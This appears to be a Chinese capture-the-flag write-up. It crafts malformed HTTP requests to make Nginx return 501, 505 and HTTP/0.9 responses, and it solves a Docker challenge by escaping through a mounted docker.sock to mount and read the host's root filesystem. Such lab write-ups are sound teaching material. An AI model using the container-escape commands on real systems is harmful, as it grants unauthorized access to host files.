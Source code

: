 #### [501 Not Implemented](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Status/501)

这个得参考 Nginx 源码 [src/http/ngx_http_request.c#L1993,L2011](https://github.com/nginx/nginx/blob/a13ed7f5ed5bebdc0b9217ffafb75ab69f835a84/src/http/ngx_http_request.c#L1993,L2011)。

可见在请求头传入的 `Transfer-Encoding` 不受支持时，便会返回 `501` 状态码，即可构造一个不存在的 `Encoding` 进行请求操作即可。

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Transfer-Encoding: majik\r\n\r\n
```

#### [505 HTTP Version Not Supported](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Status/505)

传入一个不受默认值配置 Nginx 支持的 HTTP 版本就好。

```
GET / HTTP/2077\r\n
Host: example.com\r\n\r\n
```

#### 总结

其实 `501 Not Implemented` 是非预期解，取而代之的预期解是 `413 Content Too Large`，但我没想到能传入一个唬人的 `Content-Length` 就能解决的（x

### 没有状态……哈？

这个还是误打误撞试出来的，我就试了一下不传入 HTTP 版本会怎样，结果试出来了一个 HTTP/0.9 的这个~~特性~~。

可参考 [What is HTTP/0.9 request?](https://superuser.com/a/1504534) 以及 [w3.org 定义](https://www.w3.org/Protocols/HTTP/AsImplemented.html)

```
GET /\r\n\r\n
```

## 💻 Docker for Everyone

本人通过参考文章 [技术干货 | Docker 容器逃逸案例汇集](https://zhuanlan.zhihu.com/p/191373337)，猜测可能宿主 Docker 的 sock 及本体映射进去了，便进行了以下操作。

```shell
docker -H unix:///var/run/docker.sock run -it -v /:/host alpine /bin/ash  # 调用宿主机的 docker 开启新的容器，并挂在根目录至 /host，并运行 ash
cat /host`readlink -f /host/flag`  # 获取 flag
```

~~但实际上是因为用户直接处于 docker 用户组中，可以直接操作宿主的 docker。~~

## 🧮 惜字如金 2.0

这题非常简单，按照题目的指引去做就好了。
